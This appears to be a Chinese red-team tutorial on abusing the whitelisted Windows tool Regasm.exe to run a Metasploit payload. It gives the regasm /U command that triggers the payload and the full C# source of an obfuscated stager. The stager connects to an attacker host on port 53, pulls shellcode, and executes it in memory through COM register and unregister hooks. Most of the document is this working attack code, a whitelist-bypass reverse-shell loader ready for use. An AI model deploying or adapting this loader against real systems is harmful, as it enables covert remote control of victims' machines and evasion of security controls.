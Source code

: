 
### Regasm简介：

Regasm 为程序集注册工具，读取程序集中的元数据，并将所需的项添加到注册表中。RegAsm.exe是Microsoft Corporation开发的合法文件进程。它与Microsoft.NET Assembly Registration Utility相关联。

**说明：**Regasm.exe所在路径没有被系统添加PATH环境变量中，因此，REGASM命令无法识别。

具体参考微软官方文档：  
https://docs.microsoft.com/en-us/dotnet/framework/tools/regasm-exe-assembly-registration-tool

基于白名单Regasm.exe配置payload：

Windows 7 默认位置：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](/img/314cbd2bd9ab4f06f2323a2cd8c0d624.jpg)

### 靶机执行：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U Micropoor.dll
```
![](/img/868577dc3b5b517840363527f5b5ad2b.jpg)


### 附录：Micropoor.cs
**注：x86 payload**

```csharp
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace HYlDKsYF

{

public class kxKhdVzWQXolmmF : ServicedComponent { 

public kxKhdVzWQXolmmF() { Console.WriteLine("doge"); } 

[ComRegisterFunction]

public static void RegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

}

} 

public class ZApOAKJKY

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 FJyyNB, UInt32 fwtsYaiizj, UInt32 dHJhaXQiaqW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 bqtaDNfVCzVox, UInt32 hjDFdZuT, UInt32 JAVAYBFdojxsgo);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 AQdEyOhn, byte[] wknmfaRmoElGo, UInt32 yRXPRezIkcorSOo);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 uQgiOlrrBaR, UInt32 BxkWKqEKnp, UInt32 lelfRubuprxr, IntPtr qPzVKjdiF, UInt32 kNXJcS, ref UInt32 atiLJcRPnhfyGvp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr XSjyzoKzGmuIOcD, UInt32 VumUGj);static byte[] HMSjEXjuIzkkmo(string aCWWUttzmy, int iJGvqiEDGLhjr) {

IPEndPoint YUXVAnzAurxH = new IPEndPoint(IPAddress.Parse(aCWWUttzmy), iJGvqiEDGLhjr);

Socket MXCEuiuRIWgOYze = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { MXCEuiuRIWgOYze.Connect(YUXVAnzAurxH); }

catch { return null;}

byte[] Bjpvhc = new byte[4];

MXCEuiuRIWgOYze.Receive(Bjpvhc, 4, 0);

int IETFBI = BitConverter.ToInt32(Bjpvhc, 0);

byte[] ZKSAAFwxgSDnTW = new byte[IETFBI + 5];

int JFPJLlk = 0;

while (JFPJLlk < IETFBI)

{ JFPJLlk += MXCEuiuRIWgOYze.Receive(ZKSAAFwxgSDnTW, JFPJLlk + 5, (IETFBI ‐ JFPJLlk) < 4096 ? (IETFBI ‐ JFPJLlk) : 4096, 0);}

byte[] nXRztzNVwPavq = BitConverter.GetBytes((int)MXCEuiuRIWgOYze.Handle);

Array.Copy(nXRztzNVwPavq, 0, ZKSAAFwxgSDnTW, 1, 4); ZKSAAFwxgSDnTW[0] = 0xBF;

return ZKSAAFwxgSDnTW;}

static void TOdKEwPYRUgJly(byte[] KNCtlJWAmlqJ) {

if (KNCtlJWAmlqJ != null) {

UInt32 uuKxFZFwog = HeapCreate(0x00040000, (UInt32)KNCtlJWAmlqJ.Lengt h, 0);

UInt32 sDPjIMhJIOAlwn = HeapAlloc(uuKxFZFwog, 0x00000008, (UInt32)KNCtlJWAmlqJ.Length);

RtlMoveMemory(sDPjIMhJIOAlwn, KNCtlJWAmlqJ, (UInt32)KNCtlJWAmlqJ.Length);

UInt32 ijifOEfllRl = 0;

IntPtr ihXuoEirmz = CreateThread(0, 0, sDPjIMhJIOAlwn, IntPtr.Zero, 0, ref ijifOEfllRl);

WaitForSingleObject(ihXuoEirmz, 0xFFFFFFFF);}} 

public static void QYJOTklTwn() {

byte[] ZKSAAFwxgSDnTW = null; ZKSAAFwxgSDnTW = HMSjEXjuIzkkmo("192.168.1.4", 53);

TOdKEwPYRUgJly(ZKSAAFwxgSDnTW);

} } }
```
>   Micropoor
